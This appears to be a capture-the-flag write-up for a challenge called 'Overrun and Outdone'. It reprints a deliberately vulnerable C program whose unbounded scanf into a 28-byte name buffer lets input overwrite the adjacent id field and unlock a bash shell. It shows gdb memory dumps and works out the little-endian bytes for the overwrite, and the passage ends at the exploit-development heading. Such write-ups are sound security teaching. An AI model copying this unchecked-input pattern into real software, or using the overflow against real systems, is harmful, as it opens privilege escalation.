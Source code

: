 # pointeroverflowctf - Exploit 200 "Overrun and Outdone"
## Table of Contents
- [Introduction](#introduction)
- [Code Analysis](#code-analysis)
- [Debugging](#Debugging)
- [Exploit Development](#exploit-development)
- [Usage](#usage)
- [Results](#results)
- [Conclusion](#conclusion)
- [References](#references)

## Introduction
<p align="center">
 <img src="images/exploit_200.png" alt="challenge">
 </p>

The User Record application has a buffer overflow vulnerability due to improper handling of user input. The `name` field in the `user_record` struct has a fixed size, which allows for an overflow when a longer string is provided. This exploit demonstrates how to manipulate the memory layout to change the `id` variable.

## Code Analysis

To gain privileged shell access in the User Record application, we target the ROOT_ID defined as 80085, The structure user_record has a total size of 32 bytes so with no padding, allowing us to exploit a buffer overflow in the name field to overwrite the adjacent id field directly. By crafting an input that exceeds the buffer size, we can set the id to 80085, granting access to the debug shell.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

#define GUEST_ID 101
#define ROOT_ID 80085

struct user_record {
	char name[28];
	int id;
};

void sig_handler(int signum) {

	printf("Timeout\n");
	exit(0);

}

void init() {

	alarm(60);
	signal(SIGALRM, sig_handler);

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	chdir(getenv("HOME"));

}

int get_int() {

	int r;

	scanf(" %d", &r);
	while(getchar() != '\n');

	return r;

}

int main() {

	int choice;
	struct user_record u = {
		"User",
		GUEST_ID
	};

	init();

	printf("Ohayoooo, %s-senpai!! ☆ ～('▽^人)~ Welcome to your wildest dreams!\n", u.name);

	while(1) {

		printf("\nWhat can I do for you today, %s-senpai? UwU ♪(´▽`)\n", u.name);
		printf(" (1) ☆~ Rename yourself, nya! ~☆\n");
		printf(" (2) ★~ Become a super-duper admin! ~★\n");
		printf(" (3) ☾~ Access Debug Mode, teehee ~☽\n");
		printf(" (4) ✧~ Leave me?! Nooo... ~✧ (Quit the program)\n");
		printf("Your Choice, senpai: ");
		choice = get_int();

		if (choice == 1) {

			printf("Oooh! A new name, how exciting! (≧◡≦) Enter your new username, %s-senpai: ", u.name);
			scanf("%s", u.name);

		} else if (choice == 2) {

			printf("Ehehe, gomen'nasai %s, but the admin account is like... totally locked, desu~! (≧▽≦)/\n", u.name);

		} else if (choice == 3) {

			if (u.id == GUEST_ID) {
				printf("Oh no no no, %s-chan! Guests aren't allowed to use this feature, teehee! (≧ω≦)\n", u.name);
			} else if (u.id == ROOT_ID) {
				printf("Sugoi! Starting debug shell just for you, %s-sama~! (っ＾▿＾)\n", u.name);
				execl("/bin/bash", "/bin/bash", NULL);
			} else {
				printf("Hmmm... I don't know what kind of user you are, %s... so mysterious! (´･ω･`)\n", u.name);
			}

		} else if (choice == 4) {
			printf("N-Nani?! You're leaving me, %s-senpai?! ｡ﾟ･ (>﹏<) ･ﾟ｡ Sayonaraaa... come back soon, kay?! (~￣▽￣)~\n", u.name);
			exit(0);

		} else {
			printf("Eh? That's not an option, silly %s! (⁄ ⁄>⁄ ▽ ⁄<⁄)\n", u.name);
		}
	}
	return 0;
}
```
## Debugging 
### using gdb :

set name -> "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa" -> 'a' 29 times

```shell
(gdb) x/32bx &u.name
0x7fffffffde20: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde28: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde30: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde38: 0x61  0x61  0x61  0x61  0x61  0x00  0x00  0x00

(gdb) x/32bx &u.id
0x7fffffffde3c: 0x61  0x00  0x00  0x00  0x00  0xdf  0xff  0xff
0x7fffffffde44: 0xff  0x7f  0x00  0x00  0x00  0x00  0x00  0x00
0x7fffffffde4c: 0x01  0x00  0x00  0x00  0x01  0x00  0x00  0x00
0x7fffffffde54: 0x00  0x00  0x00  0x00  0xba  0x5d  0xde  0xf7

(gdb) print u.id
$4 = 97
```

The first byte of u.id (0x61) was overwritten by the overflow from u.name.
This means that u.id now holds the value 97, which is the ASCII code for the character 'a'

so for set u.id to 80085 ->  in hex 0x000138D5
In little-endian representation, the least significant byte comes first. Therefore, 80085 (0x000138D5) is stored in memory as 0xD5 0x38 0x01 0x00

## Exploit Development

